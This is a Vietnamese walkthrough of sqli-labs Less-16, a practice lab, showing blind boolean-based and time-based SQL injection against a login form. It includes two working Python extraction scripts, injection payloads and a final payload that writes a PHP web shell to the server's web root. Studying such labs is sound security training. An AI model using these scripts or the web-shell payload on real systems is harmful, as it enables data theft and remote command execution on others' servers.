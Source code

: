 # Less 16

Đề bài cho một khung đăng nhập 

![](../images/sqli-labs/Less-16/01.png)

Thử đăng nhập

![](../images/sqli-labs/Less-16/02.png)

Sau nhiều lần thử tôi thấy trong bài này đã không hiển thị các lỗi của SQL lên màn hình. Nó chỉ hiển thị để thông báo cho ta đăng nhập thất bại hay thành công. Như vậy ta không thể khai thác được gì bằng cách cho nó hiển thị lỗi ra màn hình. Nhưng tôi thấy nó vẫn thông báo cho chúng ta thấy có đăng nhập thành công hay không. Tận dụng điều này chúng ta có thể sử dụng boolean based để khai thác các thông tin trong DB

Tôi thấy khi tôi nhập vào như sau 

![](../images/sqli-labs/Less-16/03.png)

Thì thấy thông báo đăng nhập thành công

![](../images/sqli-labs/Less-16/04.png)

Như vậy tôi có thể dự đoán câu query có thể là

```
select * from table where username=("$user") and password=("passwd")
```

Như vậy tôi có thể khai thác boolean based như những bài trước

```
import requests
import string

text = "../images/flag.jpg"
query = "select database()"
passwd = ""
url_1="http://192.168.84.233/sqli-labs/Less-16/"
param_1 = '1") or substr(('
param_2 = "),{},1)='{}' -- "
param = param_1 + query + param_2

lists=string.printable

for n in range(1,18):
    for i in lists:
        username = param.format(n,i)
        data={"uname": username, "passwd":passwd}
        res = requests.post(url=url_1, data=data)
        if text in res.text:
            print(i)
            break
```

Kết quả

```
python Sql-boolean-post.py 
s
e
c
u
r
i
t
y
```

Tương tự như vâỵ ta có thể khai thác các thông tin khác tương tự như những bài trước bằng cách chỉ cần thay đổi câu query trong script trên

Hoặc ta có thể sử dụng time based để khai thác thông tin. Nhưng sử dụng cách này sẽ mất thời gian hơn sử dụng boolean based.

Tôi nhập vào khung user 

```
1")-if(substr((select database()),1,1)='a',sleep(1), false) -- 
```

Như đây điều kiện là sai

![](../images/sqli-labs/Less-16/05.png)

Khi tồi nhập vào

```
1")-if(substr((select database()),1,1)='s',sleep(1), false) -- 
```

Khi điều kiện là đúng

![](../images/sqli-labs/Less-16/06.png)

Như vậy ta có thể tận dụng vào đây để khai thác các thông tin trong DB giống như các bài trước

```
import requests
import string
import time

query = "select database()"
passwd = ""
url_1="http://192.168.84.233/sqli-labs/Less-16/"
param_1 = '1")-if(substr(('
param_2 = "),{},1)='{}',sleep(1), false) -- "
param = param_1 + query + param_2

lists=string.printable

for n in range(1,18):
    for i in lists:
        username = param.format(n,i)
        data={"uname": username, "passwd":passwd}
        time_1 = time.time()
        res = requests.post(url=url_1, data=data)
        time_2 = time.time()
        if (time_2 - time_1 >= 5):
            print(i)
            break
```

Kết quả như sau

```
python Sql-time-post.py 
s
e
c
u
r
i
t
y
```

Tương tự như vậu để show các thông tin khác ta chỉ cần thay đổi câu query. Ta cũng có thể thêm đoạn code PHP lên server như những bài trước bằng cách nhập vào khung username như sau

```
1") union select 1,"<?php system($_REQUEST['cmd']);?>" into outfile '/var/www/html/tests/c1.php' -- 
```